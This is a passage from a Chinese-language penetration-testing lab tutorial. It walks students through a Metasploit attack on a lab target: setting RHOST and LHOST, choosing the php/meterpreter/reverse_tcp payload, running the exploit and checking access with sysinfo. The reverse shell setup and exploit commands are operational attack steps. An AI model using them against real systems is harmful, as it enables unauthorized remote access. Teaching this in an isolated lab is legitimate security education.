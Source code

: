 ```
# 设置目标靶机 IP 地址参数
set RHOST 192.168.122.102
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964093422.png-wm)

```
# show 显示可用模块
show payloads
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964433170.png-wm)


```
# set 命令，使用 PAYLOAD 模块
set PAYLOAD php/meterpreter/reverse_tcp

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964503718.png-wm)

```
# 使用 show 命令，在进行参数查看
show options

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964653341.png-wm)

设置本地主机的 IP 地址参数 LHOST：

```
# 设置本地主机的 IP 地址参数
set LHOST 192.168.122.101
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964760386.png-wm)


### 4.2 进行渗透攻击

当进行到这步的时候，在实验楼的 Kali 的 MSF 终端中，已经设置好了所需的必要参数，接下来让我们输入渗透攻击命令即可：

```
# 使用 exploit 命令，进行渗透攻击
exploit

```
渗透成功后，你将会见到如下界面：
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479964978185.png-wm)

下面让我们输入命令，验证渗透成功，在实验楼 Kali 的 MSF 终端中输入命令，如下图，查看渗透靶机的系统信息：

```
#　使用命令，查看渗透靶机的信息
sysinfo
```
